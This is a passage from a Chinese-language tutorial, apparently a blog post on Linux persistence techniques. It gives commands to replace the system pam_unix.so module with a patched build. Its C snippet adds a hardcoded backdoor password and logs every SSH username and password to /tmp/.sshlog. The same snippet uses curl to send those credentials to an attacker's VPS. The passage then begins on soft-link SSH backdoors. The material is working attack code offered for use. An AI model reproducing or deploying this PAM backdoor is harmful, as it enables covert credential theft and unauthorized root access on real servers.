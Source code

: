 ```bash
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bakcp
cd modules/pam_unix/.libs
cp pam_unix.so /usr/lib64/security/pam_unix.so
```

*效果验证*

![截图](7e7629875baf0c3fd9dae84af7386828.png)

此时查看`/tmp/.sshlog`就可以查看到对应的密码了！

![截图](f81243cb0259eab98d8e6d2de1f47c33.png)

这里经过我的测试，若我们在`ssh`的登录密码处加上如下代码，即可实现远程发送账号密码到vps上：

```c_cpp
	/* verify the password of this user */
	retval = _unix_verify_password(pamh, name, p, ctrl);
  if(strcmp("yuan1",p)==0){return PAM_SUCCESS;}    //后门密码
  if(retval == PAM_SUCCESS){  
           char szres[1024] = {0};  
           FILE * fp;    
           fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置
           fprintf(fp, "%s : %s\n", name, p);    
           fclose(fp);
           memset(szres,0,sizeof(szres));
           snprintf(szres,sizeof(szres),"/usr/bin/curl -s -d \"username=%s&password=%s\" http://[vpsip]/ssh.php >/dev/null",name,p);
    system(szres);  
    } 
```
{: file='pam_unix_auth.c'}

然后测试正常登录后即可记录！！！

![截图](aa847a0d921a5bbd28d68a21703c0581.png)

## 0x03 登录方式-软链接&公私钥&新帐号

本部分，主要通过ssh的登陆模块进行介绍。

### 1、软链接

在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。
SSH配置中开启了PAM进行身份验证

#### 利用

1、查看是否使用PAM进行身份验证：

```bash
cat /etc/ssh/sshd_config|grep UsePAM
```
